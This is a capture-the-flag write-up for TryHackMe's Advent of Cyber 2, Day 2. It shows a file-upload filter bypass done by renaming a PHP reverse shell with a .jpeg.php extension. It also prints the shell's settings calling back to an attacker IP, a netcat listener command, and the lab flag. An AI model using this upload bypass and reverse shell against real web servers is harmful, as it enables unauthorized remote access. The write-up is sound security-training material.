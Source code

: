 ```yaml
---
layout: post
title: AdventOfCyber2 Day 2
categories: [Write-Ups, AdventOfCyber]
tags: [TryHackMe, AdventOfCyber2]
featured-image:  adventOfCyber2/icon.png
featured-image-alt: adventOfCyber2
---
```


# Day 2 : The Elf Strikes Back !

```
At the bottom of the dossier is a sticky note containing the following 
message:

    For Elf McEager:
    You have been assigned an ID number for your audit of the system: 
	ODIzODI5MTNiYmYw . Use this to gain access to the upload section of 
	the site.
    Good luck!
```

We deploy the machine, obtain the IP address : `10.10.4.190`

## What string of text needs adding to the URL to get access to the upload page?

We navigate tot the displayed IP address inn our browser and access to the upload page by adding this string to the URL : 
`/?id=ODIzODI5MTNiYmYw` because our ID is ODIzODI5MTNiYmYw.

## What type of file is accepted by the site? 
`<input type="file" id="chooseFile" accept=".jpeg,.jpg,.png">`
**image**

## Now we have to bypass the filter and upload a reverse shell.

* In which directory are the uploaded files stored?

We use the file **php-reverse-shell.php** and rename it **php-reverse-shell.jpeg.php**.
In this one, we put our IP OpenVPN address and the port where we want to listen : 
```
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.8.87.25';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

We submit it in the website, and go on `http://10.10.4.190/uploads/` and find our file.  
So the uploaded files are stored in **/uploads/**.

## What is the flag in /var/www/flag.txt?

We listen our port with the command : `sudo nc -lvnp 443`
We launch our file in the directory `/uploads/` on the website. 
We can now execute shell command, so we do that below to find the flag : 

```
sh-4.4$ cat /var/www/flag.txt  
cat /var/www/flag.txt


==============================================================


You've reached the end of the Advent of Cyber, Day 2 -- hopefully you're enjoying yourself so far, and are learning lots! 
This is all from me, so I'm going to take the chance to thank the awesome @Vargnaar for his invaluable design lessons, without which the theming of the past two websites simply would not be the same. 


Have a flag -- you deserve it!
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}


Good luck on your mission (and maybe I'll see y'all again on Christmas Eve)!
 --Muiri (@MuirlandOracle)


==============================================================
```

The flag is **THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}**.
